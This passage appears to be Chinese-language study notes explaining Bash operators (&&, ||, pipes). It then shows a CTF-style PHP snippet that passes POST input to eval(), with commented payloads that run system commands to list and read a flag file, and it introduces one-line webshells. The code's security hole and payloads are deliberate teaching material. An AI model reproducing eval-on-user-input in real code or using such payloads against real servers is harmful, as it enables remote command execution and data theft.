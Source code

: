 1. **`&&`** **(逻辑与)：** 只有前面的命令执行成功（返回状态码为 0），后面的命令才会执行。如果前面的命令执行失败（返回状态码非 0），则后面的命令不会执行

```Bash
command1 && command2 && command3

mkdir mydir && cd mydir && touch myfile.txt
```

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=YWVmOTU2MGMzZDQ4YTFmNGRkNDRlZjkzNTdkMzlhNzFfYU5lR1pNelFveTl0R3Qya2U4dko4WTIyZXNDUmVYVWVfVG9rZW46UHhYY2JSQ2lyb3MxSzd4TUFrRmNYUWg2bjVlXzE3MzY3ODEzNjc6MTczNjc4NDk2N19WNA)

1. **`||`** **(逻辑或)：** 只有前面的命令执行失败（返回状态码非 0），后面的命令才会执行。如果前面的命令执行成功（返回状态码为 0），则后面的命令不会执行。

```Bash
//yufa
command1 || command2 || command3

ping bx33661.com || echo "Wrong!!!"
```

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=OTc4ZTQ4ZDFiZmQ2MGI3NDBmNjkyMzNkYzNhNzBjMzVfbkF5eEdKOFZzZ0NVUDJWUG9OaGwzakt6b2NYdGF3M2hfVG9rZW46VjVFWmJDMHlqb094NEp4OGxSdWNpTk56bjFjXzE3MzY3ODEzNjc6MTczNjc4NDk2N19WNA)

1. **`|`** **(管道符)：** 将前一个命令的输出作为后一个命令的输入。这用于将多个命令连接起来，形成一个处理数据的流水线。

```Bash
//yufa
command1 | command2 | command3

ls -l | grep "txt" | wc -l
```

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=MTM4NTBiZmZkMjQ1MjE3N2NmZDFlZTY3MTJhZDc1NDZfdXFDc1NNR2pGbVR1SmQ3aXBXWUZOMFJockxtSkRPd3JfVG9rZW46WWM0bmJQVks2b1FRVlB4TFdvMGNwQk8zbjdnXzE3MzY3ODEzNjc6MTczNjc4NDk2N19WNA)

实战一下：

### 一个最简单的示例

```PHP
<?php 
include ("get_flag.php");
eval($_POST['a']);

highlight_file(__FILE__);

?>

//a = system("ls");
//a= system("cat get_flag.php");
```

常规解法

进一步学习：

### 一句话木马

**一句话木马** 是一种简短的恶意代码，通常用于在目标服务器上创建一个后门，以便攻击者远程控制该服务器或执行其他恶意操作。它主要出现在 Web 安全领域，特别是涉及 PHP、ASP、JSP 等动态语言的 Web 应用程序中。
